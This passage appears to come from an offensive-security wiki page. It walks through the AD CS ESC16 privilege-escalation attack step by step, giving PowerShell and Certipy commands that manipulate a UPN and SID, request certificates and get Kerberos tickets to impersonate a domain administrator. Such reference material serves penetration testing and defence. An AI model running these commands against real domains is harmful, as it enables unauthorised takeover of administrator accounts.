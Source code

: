 ```powershell
Set-DomainObject victim -Set @{'userPrincipalName'='administrator'} -Verbose
```

**(Possibly) Retrieve the credential for the victim (NT Hash)**
```powershell
Whisker.exe add /target:"victim" /domain:"DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

**Step 2: Request the certificate as the victim user from a suitable authentication template**

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

**Step 3: Revert the victim account's UPN**

```powershell
Set-DomainObject victim -Set @{'userPrincipalName'='victim@corp.local'} -Verbose
```

**Step 4: Authenticate as the target account**

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate as the target.

:::

#### (ESC16 B) Full enforcement

In this scenario, the DC `StrongCertificateBindingEnforcement` attribute is set to `2`, implying that the SID present in the SAN will be verified by the KDC.
If the CA is vulnerable to ESC6, the SID can be manipulated directly into the SAN sent with the certificate request, bypassing the enforcement policy.

To conduct this scenario, the following additionnal prerequisites must be met:
> [!WARNING]
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `2`
> * CA vulnerable to [ESC6](./certificate-authority.md#esc6-editf_attributesubjectaltname2)

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) can be used to request a certificate with a specific UPN and SID. As the whole CA is vulnerable to ESC16, any certificate template can be used to enroll at, we can for example use the `User` template.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$TARGET" -ca "$CA" -template "User" -upn "administrator@$DOMAIN" -sid "$ADMIN_SID"
```

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate as the target.
